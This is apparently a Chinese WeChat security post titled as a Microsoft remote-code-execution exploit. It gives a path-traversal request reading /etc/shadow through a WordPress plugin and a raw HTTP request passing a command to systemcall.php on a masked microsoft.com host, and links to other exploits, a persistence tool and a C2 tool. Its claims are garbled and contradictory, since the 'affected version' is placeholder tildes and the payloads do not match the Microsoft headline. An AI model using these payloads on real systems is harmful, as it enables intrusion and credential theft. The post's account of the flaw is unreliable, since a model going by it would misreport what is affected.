 #  漏洞速递 | Microsoft微软最新RCE漏洞（附EXP）   
原创 AW  阿无安全   2024-04-26 06:02  
  
<table><tbody><tr><td width="557" valign="top" height="62" style="word-break: break-all;"><section style="margin-bottom: 15px;"><span style="font-size: 14px;"><span style="color: rgb(217, 33, 66);"><strong>声明：</strong></span>该公众号大部分文章来自作者日常学习笔记，也有部分文章是经过作者授权和其他公众号白名单转载，未经授权，严禁转载，如需转载，联系开白。</span><span style="font-size: 14px;letter-spacing: 0.034em;">请勿利用</span><span style="font-size: 14px;letter-spacing: 0.034em;">文章内的相关技术从事非法测试，如因此产生的一切不良后果与文章作者和本公众号无关。</span></section></td></tr></tbody></table>  
现在只对常读和星标的公众号才展示大图推送，建议大家把  
**阿无安全**  
“  
设为星标  
”，  
否则可能看不到了  
！  
  
  
**0x01 前言**  
  
     
  
  
微软RCE  
。  
  
  
**0x02 漏洞影响**  
  
  
    影响版本  
```
微软~~~

```  
  
**0x03 漏洞复现**  
  
  
  
EXP如下：  
```
/wp-content/plugins/wechat-broadcast/wechat/Image.php?url=/etc/shadow
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/zHibqAQoXRahXbt4JxhDdXfvXYfnQMgNNFFZuMfsyohHrIL0TnDpqm8iaLRQ1x50yClicibBLWV8bdyQLibL8zwdw1g/640?wx_fmt=png&from=appmsg "")  
```
GET /pages/systemcall.php?command=id HTTP/1.1
Host: ***.microsoft.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36
Accept: */*
Origin: chrome-extension://bhimnoepicmcjfkbmhckamllnibadfal
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close


```  
  
**success！**  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/zHibqAQoXRahXbt4JxhDdXfvXYfnQMgNNezlPLjjstKjOVbCLISE8fvvQyeBqibIYLTvfE909G5FHiaBCwwfujbcQ/640?wx_fmt=png&from=appmsg "")  
  
  
  
**0x04 修复方案**  
  
****```
请升级最新版本。 
```  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ib745vqibLBGIeAicnHiag9GCzTYjeicic5IWPqfyjLajDuwtJdNCAnCgcolqY8ROaE5CsEXR5zbjCU9aVl3WfkZpnDw/640?wx_fmt=png&tp=wxpic&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
往期推荐 · 值得阅看  
  
[CVE-2023-2317 RCE漏洞](http://mp.weixin.qq.com/s?__biz=MzkwMTUzNDgxOA==&mid=2247483981&idx=1&sn=39fe7a4494fac9b0b5956f70756c13d3&chksm=c0b20740f7c58e563e7e965e3087b806777a1213e6bbcb639f9852c60ea51bf26be97bcfdf6a&scene=21#wechat_redirect)  
  
  
[苕皮期间~致远OA 0day漏洞](http://mp.weixin.qq.com/s?__biz=MzkwMTUzNDgxOA==&mid=2247484010&idx=1&sn=960515c7cb4a2d0ec047c91748f40495&chksm=c0b20767f7c58e7102b9c617cf7686ad17ae942d6ac5abc611ef09241c504f27f43213dfd8b0&scene=21#wechat_redirect)  
  
  
[苕皮期间~用友Nday漏洞（附EXP）](http://mp.weixin.qq.com/s?__biz=MzkwMTUzNDgxOA==&mid=2247483931&idx=1&sn=61b6410e6f9d1a245e85708889bead5b&chksm=c0b20716f7c58e00501258bade789dcf7167673f282865e24f81be41e6a31d3f245a4c6dd1d2&scene=21#wechat_redirect)  
  
  
[CVE-2023-3450 RCE漏洞（附EXP）](http://mp.weixin.qq.com/s?__biz=MzkwMTUzNDgxOA==&mid=2247484037&idx=1&sn=acebf911f8303db77877b48cdc84d9d1&chksm=c0b20788f7c58e9edc4e6bbc70fb2c2a33473f8e8cf64b4d52c0061c771cb485b702b2b55e35&scene=21#wechat_redirect)  
  
  
[CVE-2023-6895 RCE漏洞（附EXP）](http://mp.weixin.qq.com/s?__biz=MzkwMTUzNDgxOA==&mid=2247484324&idx=1&sn=78f5c6de38555869f71ec618fc8fdc4f&chksm=c0b206a9f7c58fbf4ea5f65e0711f9aa7d3714237b55edf6def9d6c5945b69a985ddce816858&scene=21#wechat_redirect)  
  
  
[CVE-2023-26469 RCE漏洞（附EXP）](http://mp.weixin.qq.com/s?__biz=MzkwMTUzNDgxOA==&mid=2247484030&idx=1&sn=f457c979e0f01ad991b9287aaa24d604&chksm=c0b20773f7c58e65ead3e92141ab7f55af292b8c783ff1ae79cdffc9ace0fdafebb0893ed134&scene=21#wechat_redirect)  
  
  
[XVE-2023-23743 RCE漏洞（附EXP）](http://mp.weixin.qq.com/s?__biz=MzkwMTUzNDgxOA==&mid=2247484142&idx=1&sn=c1d0a8338093b459469dd83476b9daed&chksm=c0b207e3f7c58ef5ea6fdb159b871cf6d837bbe1f762b0221a718c2d1718c3db70d213d7c034&scene=21#wechat_redirect)  
  
  
[CVE-2023-4120 某设备注入漏洞（附EXP）](http://mp.weixin.qq.com/s?__biz=MzkwMTUzNDgxOA==&mid=2247484052&idx=1&sn=8aec1c2d9eb9554a8cf5f3f5672c254f&chksm=c0b20799f7c58e8f800dbfbbe83728790b87e9042b29409ef9bab58d38176aef90ec6c737727&scene=21#wechat_redirect)  
  
  
[CVE-2023-4450 | JeecgBoot RCE漏洞（附EXP）](http://mp.weixin.qq.com/s?__biz=MzkwMTUzNDgxOA==&mid=2247483689&idx=1&sn=a2c3e62fc0cd256106d5b60fce9760ea&chksm=c0b20424f7c58d3242a3d8766f9a0fd033de6ecb016431376eee83421e529eb209530f3e84ae&scene=21#wechat_redirect)  
  
  
[CVE-2023-49070 XML-RPC代码执行漏洞（附EXP）](http://mp.weixin.qq.com/s?__biz=MzkwMTUzNDgxOA==&mid=2247484315&idx=1&sn=f2dec378f96ae1b314630abad73de2a8&chksm=c0b20696f7c58f80fe76db3e2f4ea2f3c9fd0d1a71a18f0081d59b810b69beb8425a7358bd92&scene=21#wechat_redirect)  
  
  
[NB！分享一款神器 Linux权限维持Tools（附下载）](http://mp.weixin.qq.com/s?__biz=MzkwMTUzNDgxOA==&mid=2247483986&idx=1&sn=bf1edbbf2c6544ae32c2f477d21b3baa&chksm=c0b2075ff7c58e49256b13f051beee5599a845e5d10aead29b489ae4792cce08d0902414a62e&scene=21#wechat_redirect)  
  
  
[分享一款WEB界面的高仿CobaltStrike C2远控Tools（附下载）](http://mp.weixin.qq.com/s?__biz=MzkwMTUzNDgxOA==&mid=2247483998&idx=1&sn=4315e04ad5199ca667801160d6ed172d&chksm=c0b20753f7c58e456244481c639ed47742ca6def86bf03d6f73127bf022baabeeb7b8d079501&scene=21#wechat_redirect)  
  
  
  
  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/kuIKKC9tNkAfZibz9TQ8KWj4voxxxNSGMAGiauAWicdDiaVl8fUJYtSgichibSzDUJvsic9HUfC38aPH9ia3sopypYW8ew/640?wx_fmt=gif&wxfrom=5&wx_lazy=1&tp=wxpic "")  
  
